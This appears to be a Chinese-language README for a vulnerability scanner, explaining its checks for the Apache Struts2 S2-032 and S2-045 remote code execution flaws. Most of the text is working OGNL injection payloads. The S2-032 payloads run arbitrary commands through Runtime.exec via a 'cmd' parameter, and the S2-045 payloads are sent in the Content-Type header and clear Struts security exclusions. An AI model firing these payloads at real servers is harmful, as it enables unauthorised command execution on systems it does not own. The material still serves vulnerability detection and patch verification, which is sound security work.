 
###### struts2_032 Struts2-032远程代码执行

直接打payload在data中    
```python
ran_a = random.randint(10000000, 20000000)
ran_b = random.randint(1000000, 2000000)
ran_check = ran_a - ran_b
lin = 'expr' + ' ' + str(ran_a) + ' - ' + str(ran_b)

checks = [str(ran_check), '无法初始化设备 PRN', '??????? PRN', '<Struts2-vuln-Check>',
            'Unable to initialize device PRN']
payloads = [
    r"method%3a%23_memberAccess%3d@ognl.OgnlContext+@DEFAULT_MEMBER_ACCESS%2c%23kxlzx%3d+@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2c%23kxlzx.println%28" + str(
        ran_a) + '-' + str(ran_b) + "%29%2c%23kxlzx.close",
    r"method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=print+test&pp=\\A&ppp=%20&encoding=UTF-8",
    r"method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=" + lin + r"&pp=\\A&ppp=%20&encoding=UTF-8",
    r"method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest(),%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23path%3d%23req.getRealPath(%23parameters.pp[0]),%23w%3d%23res.getWriter(),%23w.print(%23path),%23w.print('Check>'),1?%23xx:%23request.toString&pp=<Struts2-vuln-&encoding=UTF-8"
]
```

然后检测响应是否存在  
```python
checks = [str(ran_check), '无法初始化设备 PRN', '??????? PRN', '<Struts2-vuln-Check>',
            'Unable to initialize device PRN']
```
存在则输出结果  


###### struts2_045 Struts2-045远程代码执行

payload写到请求头的 `Content-Type`里  

```python
payloads = [
    r"%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('<'+'Struts2-vuln-'+'Check>')).(#o.close())}",
    r"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#req=@org.apache.struts2.ServletActionContext@getRequest()).(#path=#req.getRealPath('Struts2-vuln-'+'Check>')).(#o.println(#path)).(#o.close())}",
    r'''%{(#fuck='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#req=@org.apache.struts2.ServletActionContext@getRequest()).(#outstr=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#outstr.println(#req.getRealPath("Struts2-vuln-"+"Check>"))).(#outstr.close()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}'''
]
```
